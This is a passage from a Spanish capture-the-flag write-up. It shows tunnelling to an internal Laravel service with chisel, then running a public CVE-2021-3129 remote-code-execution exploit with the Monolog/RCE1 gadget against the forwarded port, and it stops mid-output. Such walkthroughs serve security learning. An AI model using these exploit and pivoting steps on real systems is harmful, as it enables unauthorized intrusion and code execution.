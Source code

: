 Hago un [Port Forwarding](https://nordvpn.com/es/blog/que-es-port-forwarding/){:target="\_blank"}{:rel="noopener nofollow"} para que este puerto sea accesible desde mi máquina, uso `chisel`.

Clonamos el repositorio de `chisel` y compilamos el binario:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ git clone https://github.com/jpillora/chisel
Clonando en 'chisel'...
remote: Enumerating objects: 2048, done.
remote: Counting objects: 100% (164/164), done.
remote: Compressing objects: 100% (102/102), done.
remote: Total 2048 (delta 96), reused 80 (delta 57), pack-reused 1884
Recibiendo objetos: 100% (2048/2048), 3.43 MiB | 6.99 MiB/s, listo.
Resolviendo deltas: 100% (962/962), listo.
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cd chisel/
┌─[z3r0byte@z3r0byte]─[~/Descargas/chisel]
└──╼ $ go build -ldflags "-s -w" .
```
Ahora tendremos que transferir el binario a la máquina víctima, yo lo haré montando un servidor HTTP con python:

![image](https://user-images.githubusercontent.com/67548295/153751601-97ef53b9-7c58-4428-91c2-01b627097f7b.png)

Y establecemos un `port forwarding`:

![image](https://user-images.githubusercontent.com/67548295/153751947-6323d32a-65b5-436e-ae72-986e38ceb2a6.png)

Ahora tendremos conectividad con el puerto `8000` interno en nuestra máquina.

---

Bien, visito este servicio web con el navegador, accederemos apuntando a `localhost:8080`

![image](https://user-images.githubusercontent.com/67548295/153752289-6a45bf79-4e5f-47d5-9f28-133ed7e40143.png)

Vale, Laravel. Si nos fijamos bien podremos ver que se expone la versión abajo a la derecha

Sabiendo la versión podremos intentar buscar vulnerabilidades asociadas a la misma, asi que busco en Internet.

Encuentro un exploit que asegura ejecución remota de comandos para esta versión.

   - [CVE-2021-3129_exploit](https://github.com/nth347/CVE-2021-3129_exploit){:target="\_blank"}{:rel="noopener nofollow"}

Clono el repositorio y pruebo a ejecutar el exploit basandome en el ejemplo que se adjunta.

```bash
┌─[✗]─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ git clone https://github.com/nth347/CVE-2021-3129_exploit
Clonando en 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0
Recibiendo objetos: 100% (9/9), listo.
Resolviendo deltas: 100% (1/1), listo.
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cd CVE-2021-3129_exploit/     
┌─[z3r0byte@z3r0byte]─[~/Descargas/CVE-2021-3129_exploit]
└──╼ $ python3 exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Clonando en 'phpggc'...
remote: Enumerating objects: 2822, done.
remote: Counting objects: 100% (1164/1164), done.
```